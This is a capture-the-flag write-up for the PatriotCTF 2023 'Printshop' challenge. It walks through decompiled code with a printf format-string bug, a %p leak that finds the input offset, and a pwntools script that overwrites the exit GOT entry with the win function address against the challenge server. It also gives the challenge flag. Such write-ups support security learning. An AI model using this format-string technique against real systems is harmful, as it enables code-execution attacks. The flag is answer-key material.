 # Binary Exploitation

## Printshop
<!--GOT , -->

That print shop down the road is useless, can you make it do something interesting?

File: https://github.com/MasonCompetitiveCyber/PatriotCTF2023/blob/main/pwn/printshop/printshop

---

### Solution

In this challenge, the exploit revolved around using a printf format string vulnerability. This allowed the attacker to manipulate the Global Offset Table (GOT) by overwriting the exit function's address with that of the win function.

#### 1. Dissassembled the Binary.

```C
void main(void)

{
  long in_FS_OFFSET;
  char local_78 [104];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  puts("\nWelcome to the Print Shop!");
  printf("\nWhat would you like to print? >> ");
  fgets(local_78,100,stdin);
  puts("\nThank you for your buisness!\n");
  printf(local_78);
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

#### 2. Leakead the Input Offset using format string vuln (%p).

```bash
$ ./printshop 
What would you like to print? >> ABCDEFGH %p.%p.%p.%p.%p.%p.%p.%p.%p.%p

Thank you for your buisness!

ABCDEFGH 0x7f6cc2702803.(nil).0x7f6cc2625b00.0xe0c0.(nil).0x4847464544434241.0x252e70252e702520.0x2e70252e70252e70.0x70252e70252e7025.0xa70252e70252e
```

Our input is exactly at the 6th %p. ABCDEFGH =:= 0x4847464544434241

#### 3. PWNTOOLS fmtstr_payload

```python
# payload.py
from pwn import *

elf = context.binary = ELF('./printshop')
# p = process("./printshop")
p = remote("chal.pctf.competitivecyber.club", 7997)

payload = fmtstr_payload(6, {elf.got["exit"] : elf.sym["win"]})
p.sendline(payload)
p.interactive()
```

### PCTF{b4by_f0rm4t_wr1t3_6344792}